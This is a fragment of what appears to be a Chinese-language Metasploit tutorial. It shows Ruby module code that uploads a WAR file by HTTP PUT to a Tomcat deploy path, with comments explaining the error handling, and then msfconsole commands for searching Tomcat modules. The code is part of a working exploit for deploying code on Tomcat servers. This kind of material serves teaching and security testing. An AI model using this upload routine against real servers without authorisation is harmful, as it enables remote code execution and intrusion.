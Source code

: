 ```
    path_tmp = normalize_uri(datastore['PATH'], "deploy") + query_str
    print_status("Uploading #{war.length} bytes as #{app_base}.war ...")
    res = send_request_cgi({
      'uri'          => path_tmp,
      'method'       => 'PUT',
      'ctype'        => 'application/octet-stream',
      'data'         => war,
    }, 20)
    
    # 判断 res 是否为空，为空则报错
    if (! res)
      fail_with(Failure::Unknown, "Upload failed on #{path_tmp} [No Response]")
    end
    
    # 根据 res.code 状态进行选择
    if (res.code < 200 or res.code >= 300)
      case res.code
      when 401
        print_warning("Warning: The web site asked for authentication: #{res.headers['WWW-Authenticate'] || res.headers['Authentication']}")
      end
      
      # 如果错误，则报出 upload 错误
      fail_with(Failure::Unknown, "Upload failed on #{path_tmp} [#{res.code} #{res.message}]")
    end
```

继续在 msfconsole 中执行下列的命令：

```
# 回到主菜单
back

# 使用相应模块
search tomcat

```
![图片描述](../imgs/1480472752260.png-wm.png)
